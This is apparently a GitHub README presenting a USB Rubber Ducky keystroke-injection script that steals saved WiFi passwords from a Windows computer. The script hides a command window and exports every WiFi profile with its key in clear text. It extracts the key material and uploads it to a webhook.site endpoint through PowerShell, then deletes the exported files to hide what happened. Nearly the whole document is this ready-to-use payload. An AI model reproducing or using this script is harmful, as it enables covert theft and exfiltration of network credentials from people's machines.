 # StealWiFiDuckyScript
USB Rubber Ducky Script for capture saved wifi passwords
<pre>
<code>
REM Ducky Script for Steal Saved WiFi Password
REM Author - TechChip
REM https://github.com/techchipnet
REM https://youtube.com/techchipnet
DELAY 500
GUI r
DELAY 1000
STRING cmd /k mode con: cols=25 lines=1
DELAY 100
ENTER
DELAY 1000
STRING cd %temp%
ENTER
DELAY 500
STRING netsh wlan export profile key=clear
ENTER
DELAY 500
STRING powershell Select-String -Path Wi-Fi*.xml -Pattern 'keyMaterial' > WiFi-Key
ENTER
DELAY 1000
DELAY 500
REM next command will post wifi password on webhook.site
REM watch demo on techchip youtube channel
STRING powershell Invoke-WebRequest -Uri https://webhook.site/<paste webhook unique id here> -Method POST -InFile WiFi-Key
ENTER
STRING del Wi* /s/f/q
ENTER
DELAY 500
STRING exit
ENTER
REM Subscribe TechChip YouTube Channel
</code>
</pre>
